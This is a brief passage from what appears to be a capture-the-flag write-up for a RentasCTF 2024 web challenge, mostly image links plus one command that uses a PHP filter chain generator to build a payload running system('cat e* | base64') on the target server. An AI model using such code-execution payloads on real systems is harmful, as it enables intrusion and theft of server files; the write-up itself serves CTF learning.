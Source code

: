 ![web2](/assets/posts/rentasctf2024/web2.png)

![web3](/assets/posts/rentasctf2024/web3.png)

We can use a [PHP filter chain generator script](https://github.com/synacktiv/php_filter_chain_generator)

Command payload
```
python script.py --chain "<?php system('cat e* | base64');?>"
```
